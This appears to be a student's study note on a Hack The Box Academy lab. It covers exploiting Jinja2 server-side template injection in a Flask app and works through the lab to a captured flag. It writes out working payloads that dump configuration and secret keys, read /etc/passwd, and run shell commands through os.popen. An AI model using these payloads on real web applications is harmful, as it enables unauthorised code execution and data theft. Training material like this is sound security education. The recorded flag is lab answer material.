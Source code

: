 ```yaml
---
sticker: lucide//book-template
---
```


# Exploiting SSTI - Jinja2

Now that we have seen how to identify the template engine used by a web application vulnerable to SSTI, we will move on to the exploitation of SSTI. In this section, we will assume that we have successfully identified that the web application uses the `Jinja` template engine. We will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step.

Jinja is a template engine commonly used in Python web frameworks such as `Flask` or `Django`. This section will focus on a `Flask` web application. The payloads in other web frameworks might thus be slightly different.

In our payload, we can freely use any libraries that are already imported by the Python application, either directly or indirectly. Additionally, we may be able to import additional libraries through the use of the `import` statement.

***

### Information Disclosure

We can exploit the SSTI vulnerability to obtain internal information about the web application, including configuration details and the web application's source code. For instance, we can obtain the web application's configuration using the following SSTI payload:

```jinja2
{{ config.items() }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_1.png)

Since this payload dumps the entire web application configuration, including any used secret keys, we can prepare further attacks using the obtained information. We can also execute Python code to obtain information about the web application's source code. We can use the following SSTI payload to dump all available built-in functions:

```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_2.png)

***

### Local File Inclusion (LFI)

We can use Python's built-in function `open` to include a local file. However, we cannot call the function directly; we need to call it from the `__builtins__` dictionary we dumped earlier. This results in the following payload to include the file `/etc/passwd`:

```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

***

### Remote Code Execution (RCE)

To achieve remote code execution in Python, we can use functions provided by the `os` library, such as `system` or `popen`. However, if the web application has not already imported this library, we must first import it by calling the built-in function `import`. This results in the following SSTI payload:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_4.png)

## Question

***

!\[]\(Pasted image 20250212131624.png)

We can begin by identifying if the page is vulnerable to SSTI:

!\[]\(Pasted image 20250212131817.png)

!\[]\(Pasted image 20250212131825.png)

This could be a good indicator that the server is indeed vulnerable to SSTI, let's use an identifier for `jinja2` and check if it works:

```jinja2
{{ config.items() }}
```

We can check the web application's configuration by using that payload:

!\[]\(Pasted image 20250212131952.png)

Ok, it is vulnerable, let's get RCE:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

!\[]\(Pasted image 20250212132022.png)

We are root, let's try to read the `/` directory:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```

!\[]\(Pasted image 20250212132107.png)

There is our flag, let's read it:

```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

!\[]\(Pasted image 20250212132138.png)

Got it:

```
HTB{295649e25b4d852185ba34907ec80643}
```

